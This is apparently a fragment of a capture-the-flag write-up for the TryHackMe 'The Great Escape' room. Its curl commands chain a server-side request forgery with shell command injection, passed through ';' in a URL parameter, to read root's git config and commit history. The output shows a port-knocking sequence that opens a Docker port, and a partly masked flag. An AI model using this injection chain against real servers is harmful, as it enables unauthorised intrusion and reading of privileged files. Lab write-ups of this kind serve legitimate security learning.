 <br>
<p>

- hydragyrum@example.com<br>
- Hydra</p>

<br>


```bash
:~/TheGreatEscape# curl 'http://xx.xxx.xx.xxx/api/exif?url=http://api-dev-backup:8080/exif?url=;cat%20-v%20/root/.gitconfig'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
[user]
	email = hydragyrum@example.com
	name = Hydra
```

<br>
<p>

- Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.<br>
- THM{********************454b75a10876}</p>

<br>

```bash
:~/TheGreatEscape# curl 'http://xx.xxx.xx.xxx/api/exif?url=http://api-dev-backup:8080/exif?url=;git%20-C%20/root%20show%20a3d30a7d0********5ff9316e3fb84434916dee8'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
commit a3d30a7d0********5ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes

diff --git a/dev-note.txt b/dev-note.txt
new file mode 100644
index 0000000..89dcd01
--- /dev/null
+++ b/dev-note.txt
@@ -0,0 +1,9 @@
+Hey guys,
+
+I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.
+
+Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.
+
+Cheers,
+
+Hydra
\ No newline at end of file
diff --git a/flag.txt b/flag.txt
```
